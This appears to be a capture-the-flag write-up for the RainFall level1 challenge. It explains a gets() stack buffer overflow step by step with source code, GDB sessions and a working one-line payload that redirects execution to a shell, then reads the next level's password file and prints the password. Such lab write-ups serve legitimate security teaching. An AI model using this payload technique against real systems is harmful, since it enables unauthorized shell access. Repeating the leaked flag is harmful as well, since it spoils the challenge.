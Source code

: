 # Level1: Exploiting gets() for Unauthorized Shell Access

## Binary Analysis

The level1 program contains a simple buffer overflow vulnerability. Looking at the source code:

```c
#include <stdio.h>

int main(void)
{
  /* Buffer of 76 bytes allocated on the stack */
  char buffer[76];

  /* gets() reads input from stdin with NO bounds checking */
  gets(buffer);

  return 0;
}

void run(void)
{
  fwrite("Good... Wait what?\n", 1, 0x13, stdout);
  system("/bin/sh");
  return;
}
```

The key vulnerability is the use of `gets()`, which reads user input without any size limitation into a fixed-size buffer. Because of this, `gets` is inherently unsafe and was removed from the C11 standard. 

## Vulnerability Explanation

This creates a buffer overflow vulnerability because:

1. The `buffer` array is only 76 bytes long
2. `gets()` will continue reading input beyond those 76 bytes
3. Data beyond the buffer will overwrite adjacent memory on the stack
4. This includes overwriting the saved return address, allowing us to hijack program flow.
5. By overwriting the return address with the address of `run()`, we can redirect execution to that function, which calls `system("/bin/sh")`, giving us a shell.

## Locating the Target Function

First, we use GDB to find the memory address of the `run()` function:

```bash
level1@RainFall:~$ gdb -q ./level1
(gdb) p run
$1 = {<text variable, no debug info>} 0x8048444 <run>
```

We find that `run()` is located at address `0x8048444`. This function will be our target since it calls `system("/bin/sh")`.

## Crafting the Exploit

Our exploit needs to:

1. Fill the 76-byte buffer
2. Overwrite the return address with the address of `run()`

### Understanding Little-Endian Format

On x86 architecture (which the binary uses), memory addresses are stored in little-endian format. This means the least significant byte is stored at the lowest memory address.

For our address `0x08048444`:

- In big-endian: `08 04 84 44`
- In little-endian: `44 84 04 08`

We need to use the little-endian format in our payload because that's how the processor will interpret the bytes when reading the return address from the stack.

### Buffer Overflow Analysis with GDB

The GDB session provides critical insight into how the buffer overflow vulnerability works in the level1 binary. Let's break down what we're seeing:

#### Disassembly Analysis

The disassembly shows:
```
(gdb) disas main
   0x08048486 <+6>:     sub    $0x50,%esp       # Allocates 80 bytes on stack
   0x08048489 <+9>:     lea    0x10(%esp),%eax  # Buffer starts 16 bytes in
   0x0804848d <+13>:    mov    %eax,(%esp)      # Pass buffer addr to gets()
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave  
   0x08048496 <+22>:    ret                     # Return instruction
```
```
(gdb) b *0x08048496
Breakpoint 1 at 0x8048496 # Set a breakpoint at the return instruction. The program will stop its execution here.
```

## Exploit Verification 

```
level1@RainFall:~$ python -c 'print("A"*76 + "B"*4 + "C"*4 + "D"*4)' > /tmp/test
```

We created a pattern of:
- 76 'A' characters (to fill the buffer)
- 4 'B' characters (to overwrite the return address)
- 4 'C' and 4 'D' characters (additional test data)

After running to the `ret` instruction:

```
(gdb) run < /tmp/test # Run the program with our test input
Starting program: /home/user/level1/level1 < /tmp/test

Breakpoint 1, 0x08048496 in main ()
(gdb) info frame
Stack level 0, frame at 0xbffff640:
 eip = 0x8048496 in main; saved eip 0x42424242
```

The **saved eip** value is `0x42424242`, which is ASCII for "BBBB". This confirms:

1. Our buffer overflow has successfully overwritten the return address
2. The offset is exactly 76 bytes (the 'B's start at position 77)
3. The return address is stored at memory location `0xbffff63c`

## Constructing the Exploit

This confirms our exploit needs:
- 76 bytes of padding
- The address of `run()` (0x08048444) in little-endian format

Instead of returning to address 0x42424242 (BBBB), we can replace it with "\x44\x84\x04\x08" to redirect execution to the `run()` function, which will provide a shell.

The GDB session validates that our exploit command is correctly formatted:
```bash
(python -c 'print "A"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
```

Breaking this down:

- `python -c '...'`: The `-c` flag allows running Python code directly from the command line
- `print "A"*76`: Creates 76 'A' characters to fill the buffer
- `"\x44\x84\x04\x08"`: The little-endian representation of the `run()` function address
- `cat` without arguments: Keeps stdin open after the exploit payload is sent
- Piping the output to `./level1`: Feeds our payload to the program's stdin

### Why We Need `cat`

The `cat` command is crucial because:

1. When the exploit succeeds and `system("/bin/sh")` executes, the shell needs an open stdin to receive commands
2. Without `cat`, stdin would close after sending the exploit, causing the shell to exit immediately
3. With `cat`, stdin remains open, allowing us to interact with the spawned shell

## Successful Exploitation

When we run our exploit:

```bash
level1@RainFall:~$ (python -c 'print "A"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
```

We see the message from the `run()` function, confirming our exploit worked. Now we can retrieve the password:

```bash
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

This password allows us to advance to level2.

